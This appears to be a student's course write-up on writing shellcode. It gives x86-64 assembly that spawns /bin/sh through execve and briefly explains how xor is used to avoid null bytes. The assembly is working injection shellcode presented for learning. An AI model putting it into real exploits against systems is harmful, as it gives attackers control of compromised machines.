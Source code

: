 # Shell Code - Week 9 

The purpose of this week was to write shellcode or code that we might inject into a program that when read will execute
and potentailly allow control of a system in this case we spawn a shell. 

``` asm
.global _start
.section .text 
_start:
    //xor to create the null values without null directly
    xor %rax, %rax 
    push %rax
    mov %rsp, %rsi
    mov %rsp, %rdx
    //load /bin/sh encoded in little endian
    mov $0x68732F6E69622F, %rbx
    push %rbx
    mov %rsp, %rdi  
    //load 3b for the execve call
    mov $0x3B, %rax  
    syscall
```

![image](https://user-images.githubusercontent.com/44854053/234171026-28f216c0-c759-4710-a368-66fe23bdf3eb.png)

![bytecountscript](./shellcode/bytecount.py)


In order to avoid null bytes the first thing I did was use xor to create a zero then stored that in the adress of that in the rsp.
